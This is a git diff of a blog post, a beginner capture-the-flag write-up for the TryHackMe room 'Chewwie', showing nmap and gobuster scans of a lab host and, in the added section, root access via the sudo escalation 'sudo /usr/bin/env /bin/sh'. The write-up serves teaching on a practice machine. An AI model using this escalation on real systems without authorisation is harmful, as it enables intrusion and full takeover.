

add files

diff --git a/_posts/2020-06-16-Chewwie-Writeup-TryHackMe.md b/_posts/2020-06-16-Chewwie-Writeup-TryHackMe.md
@@ -11,8 +11,8 @@ I design this room to be easy for beginners and more importantly i hope all of y
 
 Okay let's just get into hacking!!
 
-<a href="">
-link to thm
+<a href="https://tryhackme.com/room/chewie">
+Link to the room
 </a>
 
 # [](#header)Enumeration
@@ -27,23 +27,23 @@ We start with nmap scan :
 
 ```bash
 
-Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 17:34 WIB
-Nmap scan report for 192.168.100.11
-Host is up (0.00030s latency).
+SStarting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
+Nmap scan report for 10.10.238.69
+Host is up (0.20s latency).
 Not shown: 998 closed ports
 PORT   STATE SERVICE VERSION
-22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
+22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey:
-|   2048 08:ff:e3:9c:9a:a7:56:3e:2e:bd:fc:e3:63:06:ba:10 (RSA)
-|   256 3a:d9:57:b2:70:af:03:2f:7a:0d:d1:97:d6:14:d1:7b (ECDSA)
-|_  256 6b:74:b3:9c:2a:1a:da:f8:05:0d:83:f9:8c:85:d5:48 (ED25519)
-80/tcp open  http    Apache httpd 2.4.38 ((Debian))
-|_http-server-header: Apache/2.4.38 (Debian)
+|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
+|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
+|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
+80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
+|_http-server-header: Apache/2.4.43 (Ubuntu)
 |_http-title: Chewwie
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
-Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds
+Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds
 
 ```
 
@@ -67,7 +67,7 @@ We can try to do directory scan with gobuster and add txt extension:
 Gobuster v3.0.1
 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
 ===============================================================
-[+] Url:            http://192.168.100.11/
+[+] Url:            http://10.10.238.69/
 [+] Threads:        10
 [+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 [+] Status codes:   200,204,301,302,307,401,403
@@ -75,13 +75,11 @@ by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
 [+] Extensions:     txt
 [+] Timeout:        10s
 ===============================================================
-2020/06/16 18:03:21 Starting gobuster
+2020/06/18 09:45:16 Starting gobuster
 ===============================================================
 /images (Status: 301)
-/manual (Status: 301)
-/javascript (Status: 301)
 /notes.txt (Status: 200)
-Progress: 14310 / 220561 (6.49%)
+Progress: 5045 / 220561 (2.29%)
 ```
 
 We found `notes.txt` and inside we found a username and password for ssh.
@@ -127,3 +125,32 @@ Stopped: Tue Jun 16 18:39:46 2020
 A few minutes later the password was CRACKED!!
 
 After that we can ssh to the machine with the user we found and the password we crack:
+
+![](../assets/images/chewie_thm/ssh.png)
+
+We can finally capture the user.txt in current directory:
+
+![](../assets/images/chewie_thm/user.png)
+
+For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:
+
+```bash
+lia@ubuntu-xenial:~$ sudo -l
+Matching Defaults entries for lia on ubuntu-xenial:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User lia may run the following commands on ubuntu-xenial:
+    (ALL) NOPASSWD: /usr/bin/env
+```
+
+We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
+<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :
+
+![](../assets/images/chewie_thm/esc_root.png)
+
+We can finally capture the root.txt in /root directory:
+
+![](../assets/images/chewie_thm/root.png)
+
+And that's it! We root the machine. Hope you guys enjoy reading this writeup.
+Thank You :DD
